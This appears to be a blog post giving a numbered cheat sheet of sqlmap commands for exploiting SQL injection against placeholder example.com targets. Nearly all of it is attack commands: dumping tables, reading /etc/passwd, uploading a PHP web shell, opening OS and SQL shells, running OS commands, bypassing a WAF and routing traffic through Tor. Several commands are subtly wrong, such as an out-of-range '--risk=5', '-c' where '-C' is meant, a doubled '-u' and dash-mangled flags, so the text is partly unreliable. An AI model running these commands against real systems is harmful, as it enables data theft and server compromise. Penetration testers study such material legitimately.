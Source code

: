 # Top SQLMAP Commands For Exploitation of SQL Injection


![sqlmap commands tech hyme](https://techhyme.com/wp-content/uploads/2021/06/sqlmap-commands-tech-hyme.jpg)

Structured Query Language, which is better known as SQL, is the underlining common programing language that is understood by most database management systems. It provides a common way for application to access the data in the database by using a common set of commands the database can understand.

Attackers exploit these databases by making them output information that they should not be displaying. Sometimes this is as simple as the attacker asking for privileged information from the [database management system](https://www.appdynamics.com/topics/database-management-systems). Other times, it is taking advantage of poor configurations by database administrators.

_**Also Read:**_

-   [From Reconnaissance to Covering Tracks – 5 Phases of Ethical Hacking](https://techhyme.com/from-reconnaissance-to-covering-tracks-5-phases-of-ethical-hacking/)
-   [A to Z – Web Vulnerabilities Index – OWASP Standard](https://techhyme.com/a-to-z-web-vulnerabilities-index-owasp-standard/)
-   [A to Z – Cyber Security Tools Collection](https://techhyme.com/a-to-z-cyber-security-tools-collection/)

Attackers may also take advantage of a vulnerability in the database management system that allows the attacker to view or write privileged commands to and from the database.

Sqlmap automates the process of detecting and exploiting SQL injection vulnerability and taking over of database servers. Sqlmap comes with a detection engine, as well as a broad range of [Penetration Testing](https://techhyme.com/10-step-penetration-testing-methodology-a-detailed-guide/) (PT) features that range from DB fingerprinting to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

The basic syntax to use Sqlmap is:

> sqlmap -u URL – – function

_Below is the list of most useful important SQLMAP Commands which you can use against your vulnerable target:_

**1. GET Request**

```bash
sqlmap -u http://example.com/page.php?id=1 --dbs
```

**2. From File**

```bash
sqlmap -r request.txt
```

**3. Testing with pattern of URL’s**

```bash
sqlmap -u http://example.com/page/*/view --dbs
```

**4. POST Request**

```bash
sqlmap -u http://example.com/login.php --data "username=admin&pass=admin&submit=submit" -p username
```

**5. Using Cookies**

```bash
sqlmap -u http://example.com/enter.php --cookie="PHPSESSID=45634b63g643f563456g4356g" -u http://example.com/index.php?id=1
```

**6. Extract Databases (DB Enumeration)**

```bash
sqlmap -u http://example.com/page.php?id=1 --dbs
```

**7. Identify Current DB**

```bash
sqlmap -u http://example.com/page.php?id=1 --current-db
```

**8. Extract Tables**

```bash
sqlmap -u http://example.com/page.php?id=1 -D database --tables
```

**9. Extract Columns**

```bash
sqlmap -u http://example.com/page.php?id=1 -D database -T table_name --columns
```

**10. Dumping Data**

```bash
sqlmap -u http://example.com/page.php?id=1 -D database -T table_name -C colum1,column2 --dump
```

**11. Multithreading**

```bash
sqlmap -u http://example.com/page.php?id=1 --dbs --threads 5
```

**12. Null-Connection**

```bash
sqlmap -u http://example.com/page.php?id=1 --dbs --null-connection
```

**13. HTTP Persistant Connection**

```bash
sqlmap -u http://example.com/page.php?id=1 --dbs --keep-alive
```

**14. Output prediction**

```bash
sqlmap -u http://example.com/page.php?id=1 -D database -T user -c users,password --dump --predict-output
```

**15. Checking privilages**

```bash
sqlmap -u http://example.com/page.php?id=1 --privileges
```

**16. Reading Files from the server**

```bash
sqlmap -u http://example.com/page.php?id=1 --file-read=/etc/passwd
```

**17. Uploading Files/Shell**

```bash
sqlmap -u http://example.com/page.php?id=1 --file-write=/root/shell.php --file-dest=/var/www/shell.php
```

**18. SQL Shell**

```bash
sqlmap -u http://example.com/page.php?id=1 --sql-shell
```

**19. OS shell**

```bash
sqlmap -u http://example.com/page.php?id=1 --os-shell
```

**20. OS Command Exe without Shell Upload**

```bash
sqlmap -u http://example.com/page.php?id=1 --os-cmd "uname -a"
```

**21. Using Proxy**

```bash
sqlmap --proxy="127.0.0.1:8080" -u http://example.com/page.php?id=1 --dbs
```

**22. Using Proxy with Credentials**

```bash
sqlmap -–proxy="127.0.0.1:8080" –-proxy-cred=username:password -u http://example.com/page.php?id=1
```

**23. Crawling**

```bash
sqlmap -u http://example.com/ --crawl=1
```

**24. Exploitation in Verbose Mode**

```bash
sqlmap -u http://example.com/page.php?id=1 -v 3
```

**25. Bypassing WAF (Web Application Firewall)**

```bash
sqlmap -u http://example.com/page.php?id=1 --tamper=apostrophemask
```

**26. Scanning Key Based Authentication Page**

```bash
sqlmap -u http://example.com/page.php?id=1 --auth-file=
```

**27. To use default TOR Network**

```bash
sqlmap -u http://example.com/page.php?id=1 --tor
```

**28. Scanning with High Risk and Level**

```bash
sqlmap -u http://example.com/page.php?id=1 --level=3 --risk=5
```
